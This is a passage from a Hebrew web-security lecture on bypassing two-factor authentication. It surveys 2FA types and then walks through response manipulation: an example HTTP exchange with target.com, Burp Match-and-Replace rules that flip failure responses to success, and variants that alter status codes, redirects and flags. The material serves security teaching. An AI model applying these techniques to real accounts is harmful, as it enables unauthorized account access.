

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/2 - תקיפת אותנטיקציה מתקדמת/2.3 - עקיפת 2FA/2.3 - עקיפת 2FA - הרצאה/index.html · generator: mkdocs

# הbypass אימות דו-שלבי - 2FA Bypass

## מבוא

אימות דו-שלבי (Two-Factor Authentication) מוסיף שכבת אבטחה נוספת מעבר לסיסמה. למרות שזה משפר משמעותית את האבטחה, הטמעות לקויות מאפשרות לתוקפים לעקוף את ה-2FA. בשיעור זה נלמד את שיטות התקיפה המתקדמות נגד מנגנוני 2FA שונים.

## סקירת מנגנוני 2FA

### TOTP - סיסמה חד-פעמית מבוססת זמן

```
- Apps like Google Authenticator, Authy
- Based on a shared secret and the current time
- A 6-digit code that changes every 30 seconds
- A validity window of typically 30-90 seconds
```

### SMS OTP

```
- Code sent via SMS message
- Less secure due to weaknesses in the cellular network
- Exposed to SIM swapping and SS7 attacks
```

### אימות באמצעות דואר אלקטרוני

```
- Code or link sent to email
- Relatively low security level
- Depends on the security of the email account
```

### התראות Push

```
- Approval by tapping in the app (Duo, Microsoft Authenticator)
- Exposed to MFA fatigue / push bombing
```

### מפתחות חומרה - Hardware Tokens

```
- Uses FIDO2/WebAuthn (YubiKey, Titan)
- Most secure - resistant to phishing
- Very hard to attack remotely
```

## תקיפה 1: מניפולציית תגובה - Response Manipulation

### הרקע

שרתים מסוימים בודקים את קוד ה-2FA ומחזירים תגובה שמציינת אם הוא נכון. אם האפליקציה מסתמכת על בדיקת התגובה בצד הלקוח, ניתן לשנות אותה.

### תרחיש

```http
# Send an incorrect 2FA code
POST /verify-2fa HTTP/1.1
Host: target.com
Content-Type: application/json

{"code": "000000"}

# Server response - failure
HTTP/1.1 200 OK
{"success": false, "message": "Invalid code"}

# Modify the response in Burp:
HTTP/1.1 200 OK
{"success": true, "message": "Valid code"}
```

### הגדרת Burp לשינוי אוטומטי

```
1. Proxy -> Options -> Match and Replace
2. Add a rule:
   Type: Response body
   Match: "success": false
   Replace: "success": true

3. Another rule:
   Type: Response header
   Match: HTTP/1.1 403
   Replace: HTTP/1.1 200
```

### וריאציות נוספות

```http
# Change status code
HTTP/1.1 403 Forbidden  ->  HTTP/1.1 200 OK

# Change redirect
Location: /2fa-failed  ->  Location: /dashboard

# Change boolean value
{"verified": false}  ->  {"verified": true}
{"error": true}  ->  {"error": false}

# Change error code
{"errorCode": 401}  ->  {"errorCode": 0}
```
